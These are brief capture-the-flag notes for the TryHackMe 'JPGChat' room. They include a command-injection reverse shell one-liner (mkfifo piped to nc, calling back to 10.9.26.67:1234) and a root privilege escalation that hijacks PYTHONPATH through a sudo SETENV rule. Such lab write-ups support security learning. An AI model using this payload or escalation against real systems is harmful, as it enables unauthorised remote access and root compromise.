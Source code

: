 
## TryHackMe: JPGChat

#### Scan
- Refer to `nmap/initial*`

#### Access to
- nc EXPORT_IP PORT
  -  input command `[REPORT]`

#### Reverse Shell Payload
```
; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.26.67 1234 >/tmp/f;
```

#### Privilige Escalate
```
$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```
- Methodology
	- cd /tmp
	- export PYTHONPATH=$PWD
	- touch `compare.py`
		```python
		#!/usr/env/bin pythno3
		import os
		os.system("/bin/bash")
		```
	- sudo /usr/bin/python3 /opt/development/test_module.py

#### Resource
- https://medium.com/python-features/what-happens-behind-the-scenes-when-we-import-a-module-in-python-2775da153790
